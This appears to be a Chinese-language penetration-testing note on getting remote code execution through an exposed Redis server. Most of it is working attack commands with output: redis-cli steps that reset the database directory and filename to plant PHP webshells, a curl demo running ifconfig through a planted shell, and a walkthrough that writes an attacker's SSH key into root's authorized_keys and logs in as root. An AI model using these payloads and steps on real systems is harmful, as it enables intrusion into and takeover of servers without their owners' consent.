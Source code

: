 ### redis的RCE

三种方式：
- 写webshell（需要知道web绝对路径、web路径redis用户有权限写）
- 写入到crontab
- 将攻击者的公钥写入到authorized_key，使用攻击者的私钥ssh登录（需要开启ssh服务）


#### 说明
```
dir: 工作目录
dbfilename: 数据库的文件名
```

### redis写shell原理

设置dir工作目录，然后设置dbfilename，通过这两个步骤设置了数据库的绝对路径和文件名。后续写入的键值对就写入到这个可控的文件中（初衷是数据库文件），这里变成了攻击者的shell文件。

在redis-cli下查看这两个值：
```
127.0.0.1:6379> config get dir
1) "dir"
2) "/var/lib/redis"
127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
```
然后在系统上查看这个目录和文件的权限。redis用户对这个文件具有读写权限。这个目录也是只有redis这个用户才能访问。

```
root@ubuntu:/proc# ll /var/lib/redis
total 188
drwxr-x---  2 redis redis  4096 Jan 10 22:25 ./
drwxr-xr-x 73 root  root   4096 Nov  5 22:35 ../
-rw-rw----  1 redis redis 58587 Jan 10 22:25 dump.rdb
-rw-rw----  1 redis redis 58587 Dec  9 18:46 temp-33935.rdb
-rw-rw----  1 redis redis 58587 Dec 27 17:58 temp-67951.rdb
```


### redis启动的权限问题
如果想通过redis写入webshell，而redis是以redis用户启动，apache2是以www-data用户启动，则redis用户无法写入/var/www/目录的文件。在save步骤会出错。
```
127.0.0.1:6379> set 1 "<?php @eval($_POST['cqq']);?>    "
OK
127.0.0.1:6379> save
(error) ERR
```

### redis写webshell步骤
```
127.0.0.1:6379> config set dir /var/www
OK
127.0.0.1:6379> config set dbfilename redis_shell4.php
OK
127.0.0.1:6379> set 1111 "    <?php system($_REQUEST['cqq']);?>   "
OK
127.0.0.1:6379> save
```

#### Demo
```
$ curl -i http://192.168.85.129/redis_shell4.php?cqq=ifconfig --output -
HTTP/1.1 200 OK
Date: Mon, 11 Jan 2021 08:00:12 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2538
Content-Type: text/html; charset=UTF-8

REDIS0008	redis-ver4.0.9
redis-bits󿿀򳨭eused-memÐ
                      Ϻ
                       aof-preamble~򀕄(    br-3f4328a91e7c: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:91:42:81:60  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

### 写入攻击者公钥实现rce
先生成公私钥对：
```
$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/77/.ssh/id_rsa): /home/77/.ssh/redis_id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/77/.ssh/redis_id_rsa.
Your public key has been saved in /home/77/.ssh/redis_id_rsa.pub.
The key fingerprint is:
SHA256:ostXG7ywBhLm9vwOeJYn56d6W8mEJBnzFyQXGYYXCN8 77@ubuntu130
The key's randomart image is:
+---[RSA 2048]----+
|    +..+O=       |
|     *o=o.       |
|    o +.E        |
|  o  o o         |
| o .  o.S        |
|  +..o.++.       |
| ..+B.o+++       |
|   +oB=.+        |
|    +B*+         |
+----[SHA256]-----+

$ ll /home/77/.ssh/
total 28K
drwx------  2 77 77 4.0K Jan 11 00:06 ./
-rw-------  1 77 77 1.8K Jan 11 00:06 redis_id_rsa
-rw-r--r--  1 77 77  394 Jan 11 00:06 redis_id_rsa.pub
```

然后将公钥写到authorized_key文件里，注意如果直接写入，或者前后加空格写入，是不能起效果的。需要将公钥写入到文件，然后在文件前后加上换行符。
```
# (echo -e "\n\n\n\n"; cat redis_id_rsa.pub; echo -e "\n\n\n\n") > test.pub
root@ubuntu:~/.ssh# cat test.pub |redis-cli -x set 344444
OK
```
再连接redis确认这个值是否写入了换行符：
```
$ redis-cli
127.0.0.1:6379> get 344444
"\n\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChQBXUegXtU6HK7F9MKuWDPgKNt8Y2h2FNtg14x5qeX9mRrlurytc4dNPvmpuuNZY0yDBi2QAK4Py7bfBbRWLvcFWALoRcXfPobQzRk3beWzWifVZm9iibahqOGgmfKN1DJ5/KTvEHgtGmWOLAjr2ddy5HUnwXSjb3KBgJqdsvt+eQFWHZLDSFem5oU1hni+a/5tVFhciif5AFCpq8e1F+4RrqIGtfOj4IrW3PrqCWJUI60IUgL4MjYqBIf7sctMgGO6Ezlg86Eo8bPdpUh3ygooB6FOJaWqEiB9Kd1gEUIgaj5C/5Dt3McwTzUliJ8DhZ7dw5kUt1mC9hd3oz+AzR 77@ubuntu130\n\n\n\n\n"
127.0.0.1:6379> save
OK
```
从攻击者机器向redis所在的ssh服务发起连接：
```
$ ssh root@192.168.85.129 -i ~/.ssh/redis_id_rsa
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing self-healing high availability clusters in MicroK8s.
   Simple, hardened, Kubernetes for production, from RaspberryPi to DC.

     https://microk8s.io/high-availability

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
New release '20.04.1 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

You have new mail.
Last login: Mon Jan 11 00:04:44 2021 from 192.168.85.130
root@ubuntu:~#
```


### 通过计划任务实现RCE
//TODO

### 参考
- [利用redis写webshell](https://www.leavesongs.com/PENETRATION/write-webshell-via-redis-server.html)
- [redis 在渗透中 getshell 方法总结](https://zhuanlan.zhihu.com/p/36529010)
